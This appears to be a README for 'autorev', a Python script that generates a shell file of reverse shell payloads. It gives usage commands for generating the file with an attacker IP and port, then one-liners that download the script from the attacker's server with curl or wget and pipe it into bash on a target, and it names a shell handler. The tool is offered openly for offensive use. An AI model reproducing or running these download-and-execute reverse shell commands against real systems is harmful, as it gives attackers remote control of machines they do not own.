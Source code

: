 # autorev.sh  
The Pythone Script will generate a (.)sh file with reverse shell codes then you can execute the script on the target  
## Generating Usage  
```
python3 autorev.py -i <your-ip> -p <your-port>
```
## Using It On Target  
### Curl  
```
curl <your-temp-server-ip>/autorev.sh | bash
```
### Wget  
```
wget <your-temp-server-ip>/autorev.sh -O /tmp/autorev.sh && bash /tmp/autorev.sh
```
### Suggested shell handler - [penelope](https://github.com/brightio/penelope)  
